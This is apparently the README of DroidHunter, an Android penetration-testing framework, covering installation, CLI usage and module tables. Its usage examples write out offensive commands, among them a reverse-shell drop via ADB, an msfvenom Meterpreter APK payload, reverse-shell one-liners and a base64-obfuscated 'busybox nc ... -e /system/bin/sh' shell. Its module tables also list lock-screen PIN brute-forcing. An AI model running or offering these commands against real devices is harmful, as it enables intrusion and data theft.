

<div align="center">

# 👻 DroidHunter
### DroidHunter — Android Security Assessment / Penetration Testing Framework

**Author:** HexSecTeam | Instagram: [@hexsecteam](https://www.instagram.com/hexsecteam)


[](https://x.com/hexsecteam)
[](https://www.instagram.com/hexsecteam)
[](https://www.facebook.com/hexsecteam)
[](https://www.youtube.com/@hex_sec)
[](https://t.me/hexsec_tools)
[](https://t.me/Hexsecteam)

> ⚠️ **For authorized security testing and educational purposes only.**

</div>

---

## 💜 Support DroidHunter

If DroidHunter helps your Android security research, education, or workflow, you can support the project with a small donation.

| Asset | Network | Address |
|---|---|---|
| USDT | Ethereum network (ERC-20) | `0x3E79B73e3ce33c6B860425DCB40c6D2f4F2aC508` |

> ⚠️ Only send USDT on the Ethereum network (ERC-20). Sending funds on another network may result in permanent loss.

---

## 📌 Overview

**DroidHunter** is a comprehensive, CLI-based Android security assessment framework targeting ethical hackers and professional penetration testers. It integrates multiple attack surfaces into a single tool with a hacker-aesthetic terminal interface.

DroidHunter is developed by HexSec Team / HexSec Community for authorized Android security assessment, education, and professional penetration testing workflows.

---

## 🖼️ Preview



> Add your screenshot as `assets/droidhunter-preview.png`.

---

## 🚀 Features

| Module | Description |
|---|---|
| 📱 **Device Manager** | List devices, device info, manual/auto ADB WiFi, screenshot, logcat, file transfer |
| 🔎 **APK Analyzer** | Static decomposition: permissions, secrets, exported components, CVEs |
| 🌐 **Network Scanner** | Fast port scan, WiFi info, subnet discovery, MitM guide |
| 🚨 **Vulnerability Scanner** | CVE mapping, root detection, insecure storage, WebView, task hijacking |
| 💥 **Exploit Engine** | Activity launch, broadcast trigger, content provider dump, deep link fuzzer, shell dropper |
| 🎯 **Payload Generator** | msfvenom APK, reverse shell one-liners, ADB exploit scripts, obfuscation |
| 📋 **Report Generator** | Dark-themed HTML report + JSON + CLI table with remediation advice |
| 🎛️ **Remote Control** | Open Remote Screen via scrcpy from the interactive menu |

---

## ⚙️ Installation

```bash
# 1. Clone / navigate to the tool directory
cd /path/to/droidhunter
# or
git clone https://github.com/hexsecteam/DroidHunter.git

#2. create a virtual environment
python -m venv venv 
source venv/bin/activate

# 3. Install Python dependencies
pip3 install -r requirements.txt

# 4. (Optional) Install ADB
sudo apt install adb       # Debian/Ubuntu
sudo pacman -S android-tools  # Arch

# 5. (Optional for Remote Control) Install scrcpy
sudo apt install scrcpy

# 6. (Optional for payload generation) Install Metasploit
# https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html
```

---

## 🖥️ Usage

### Interactive Mode (Recommended)
```bash
python3 droidhunter.py
# or
python3 droidhunter.py --interactive
```

The interactive Remote Control menu supports **Open Remote Screen** through `scrcpy` for Android screen mirroring.

DroidHunter supports both **Manual ADB WiFi Connect** and **Auto ADB WiFi Connect** from the interactive menu. Auto ADB WiFi Connect requires the phone to be connected by USB first, USB Debugging enabled, and both devices on the same WiFi network.

### CLI Mode
```bash
# List connected devices
python3 droidhunter.py --devices

# Full device info
python3 droidhunter.py --device ABC123 --info

# Analyze APK + generate HTML report
python3 droidhunter.py --apk target.apk --report html --target-name "com.example.app"

# Port scan device
python3 droidhunter.py --device ABC123 --port-scan

# Full vulnerability scan
python3 droidhunter.py --device ABC123 --vuln-scan --pkg com.example.app

# Check for CVEs based on Android version
python3 droidhunter.py --device ABC123 --cve-check

# Check if device is rooted
python3 droidhunter.py --device ABC123 --root-check

# Capture logcat (200 lines)
python3 droidhunter.py --device ABC123 --logcat 200

# Capture screenshot
python3 droidhunter.py --device ABC123 --screenshot

# Enable ADB over WiFi
python3 droidhunter.py --device ABC123 --adb-wifi

# WiFi info
python3 droidhunter.py --device ABC123 --wifi-info

# SSL pinning check
python3 droidhunter.py --device ABC123 --ssl-pinning com.example.app

# MitM proxy setup guide
python3 droidhunter.py --mitm-guide

# Launch exported activity
python3 droidhunter.py --device ABC123 --exploit activity \
  --pkg com.example.app --activity com.example.app.DebugActivity

# Deep link fuzzer
python3 droidhunter.py --device ABC123 --exploit deep-link \
  --pkg com.example.app --scheme myapp

# Drop reverse shell via ADB
python3 droidhunter.py --device ABC123 --exploit shell-drop \
  --lhost 192.168.1.100 --lport 4444

# Generate msfvenom APK payload
python3 droidhunter.py --payload reverse_tcp \
  --lhost 192.168.1.100 --lport 4444 --payload-out evil.apk

# Generate reverse shell one-liners
python3 droidhunter.py --payload reverse-shells \
  --lhost 192.168.1.100 --lport 4444

# Obfuscate a command
python3 droidhunter.py --payload obfuscate \
  --raw-payload "busybox nc 10.0.0.1 4444 -e /system/bin/sh" \
  --obfuscate-method base64

# Pull file from device
python3 droidhunter.py --device ABC123 --pull /sdcard/secret.txt

# Push file to device
python3 droidhunter.py --device ABC123 --push malware.apk /sdcard/malware.apk

# Discover live hosts on subnet
python3 droidhunter.py --discover 192.168.1

# Generate JSON + HTML report
python3 droidhunter.py --apk app.apk --device ABC123 --vuln-scan \
  --pkg com.example --report both --target-name "Example Corp App"
```

---

## 🧩 Module Details

### APK Analyzer
- **Permission audit** — flags 30+ dangerous Android permissions by severity (CRITICAL → LOW)
- **Hardcoded secrets** — scans DEX, XML, JSON, JS for API keys, passwords, AWS keys, Firebase configs, DB URLs
- **Exported components** — activities, services, receivers, providers
- **File hashes** — MD5, SHA1, SHA256
- **Obfuscation detection**, native libraries, embedded URLs & IPs
- **Vulnerability heuristics** — debuggable flag, backup enabled, no network security config

### Vulnerability Scanner
- **CVE Mapping** — 30+ CVEs mapped to Android SDK levels (Stagefright, BlueBorne, StrandHogg, BlueFrag, etc.)
- **Root detection** — su binary, Magisk, SuperSU, debuggable build
- **Frida detection** — checks running processes for Frida server
- **Insecure data storage** — SharedPreferences, SQLite, world-readable files
- **WebView checks** — JS enabled, file:// access
- **Task hijacking** — StrandHogg-style taskAffinity check

### Exploit Engine
| Module | Description |
|---|---|
| Activity Launch | Launch exported activities without permission |
| Broadcast Trigger | Send malicious broadcast intents |
| Content Provider | Dump arbitrary content provider data |
| Deep Link Fuzzer | Fuzz 20+ deep link paths for unprotected endpoints |
| Frida Injection | Step-by-step Frida/objection injection guide |
| Reverse Shell Drop | Push & execute busybox/nc reverse shell via ADB |
| DB Extractor | Pull SQLite databases from app data directory |
| Lock Bypass | PIN brute force via ADB keyevents |

### Payload Generator
| Type | Description |
|---|---|
| `reverse_tcp` | msfvenom Android Meterpreter reverse TCP APK |
| `reverse_https` | msfvenom HTTPS reverse shell APK |
| `reverse-shells` | 6 reverse shell one-liners (nc, bash, python3, perl, socat) |
| `adb-script` | Full ADB exploitation shell script |
| `obfuscate` | Base64 or hex payload obfuscation |

---

## 📋 Report Output

DroidHunter generates:
- **HTML Report** — dark glassmorphism theme, severity badges, finding cards with CVE links and remediation advice
- **JSON Report** — structured machine-readable output
- **CLI Table** — quick terminal summary sorted by severity (CRITICAL → LOW)

---

## 🔧 Requirements

| Requirement | Purpose |
|---|---|
| Python 3.8+ | Runtime |
| `rich` | Terminal UI |
| `requests` | HTTP checks |
| ADB (optional) | Device interaction |
| scrcpy (optional) | Remote Android screen mirroring |
| Metasploit (optional) | APK payload generation |
| Frida (optional) | Runtime instrumentation |
| mitmproxy (optional) | Traffic interception |

---

## ⚠️ Legal Disclaimer

> DroidHunter is intended **exclusively** for authorized security assessments, CTF competitions, and educational research.
> 
> **Unauthorized use of this tool against systems you do not own or have explicit written permission to test is illegal** under the Computer Fraud and Abuse Act (CFAA), Computer Misuse Act, and equivalent laws in most jurisdictions.
> 
> The author **HexSecTeam** and contributors assume **no liability** for any misuse or damage caused by this tool.

---

<div align="center">
  Made with 💜 by <strong>HexSecTeam</strong> | HexSec Community
</div>
